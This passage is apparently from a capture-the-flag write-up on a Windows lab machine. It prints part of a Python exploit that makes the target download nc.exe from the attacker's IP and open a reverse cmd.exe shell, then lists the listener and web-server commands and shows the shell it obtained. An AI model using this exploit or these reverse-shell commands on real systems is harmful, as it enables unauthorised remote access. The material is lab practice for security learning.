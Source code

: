 ```py

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```

Lets copy this into a file, editing the lines that we need to for this to work.
Specifically the `ip_addr` and thr `local_port` variables.

Lets see if this works.

# Gaining a Foothold
First, setup a netcat listener on port 4444.
`nc -lnvp 4444`
Second, setup a python webserver with the nc.exe within the directory the web server was started.
`python3 -m http.server 80`
Third, run the exploit script with python2. (Fails with just python or python3)
`python2 exploit.py 10.10.207.64 8080`
Had to run this twice before I got shell access!

```
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>whoami
whoami
steelmountain\bill
```
Get the flag from the user profile.

# Privilege Escalation
The room wants us to use a powershell script called [PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)
